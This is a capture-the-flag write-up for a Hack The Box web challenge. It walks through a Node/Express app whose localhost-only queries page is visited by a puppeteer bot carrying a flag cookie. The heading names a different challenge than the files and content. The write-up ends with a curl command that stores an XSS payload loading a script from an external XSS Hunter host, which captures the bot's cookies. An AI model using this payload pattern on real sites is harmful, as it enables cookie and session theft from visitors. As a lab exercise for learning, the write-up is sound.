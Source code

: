 # Forensics :: Baby APT

### Challenge Files: [web_toy_workshop.zip](web_toy_workshop.zip)

For this challenge, there is a docker component that hosts the vulnerable website, but you are provided with the challenge files to develop an exploit.

At first glance, we can see that this is a Node app running Express, there are two routes that are valid, **/api/submit** and **/queries**, however the query page only allows connections from localhost.

```js
router.post('/api/submit', async (req, res) => {

		const { query } = req.body;
		if(query){
			return db.addQuery(query)
				.then(() => {
					bot.readQueries(db);
					res.send(response('Your message is delivered successfully!'));
				});
		}
		return res.status(403).send(response('Please write your query first!'));
});
```

Looking at the submit function, it appears to accept a json object via a POST request with a "query" parameter, which is then enters into the database. Then is calls the function ```bot.readQueries()```. Next we can look at the other function:

So let's go ahead and see what the bot does:

```js 
const cookies = [{
	'name': 'flag',
	'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'
}];


const readQueries = async (db) => {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		await page.goto('http://127.0.0.1:1337/');
		await page.setCookie(...cookies);
		await page.goto('http://127.0.0.1:1337/queries', {
			waitUntil: 'networkidle2'
		});
		await browser.close();
		await db.migrate();
};
```

We can see after some other initial setup, the bot stores a flag value in a cookie and then when the readQueries function is called, it browses to the queries page. Next let's go there:

```js 
router.get('/queries', async (req, res, next) => {
	if(req.ip != '127.0.0.1') return res.redirect('/');

	return db.getQueries()
		.then(queries => {
			res.render('queries', { queries });
		})
		.catch(() => res.status(500).send(response('Something went wrong!')));
});
```

When the bot visits the page, all of the queries that were submitted are displayed on the page. So this is a pretty simple stored XSS vulnerability where we can get the bot to view a script that will give us the flag in the cookie.

I personally used XSS Hunter which is just a nice simple way to capture XSS triggers without having to spin up your own listeners, etc. The payload was sent with Curl like:

```curl -X POST http://138.68.182.5:30527/api/submit -H 'Content-Type: application/json' -d '{"query":"<script src=https://myusername.xss.ht></script>"}'```

After a few minutes, the bot visits the page and on the XSSHunter dashboard I can see a report of the trigger including cookie values:

```HTB{3v1l_3lv3s_4r3_r1s1ng_up!}```
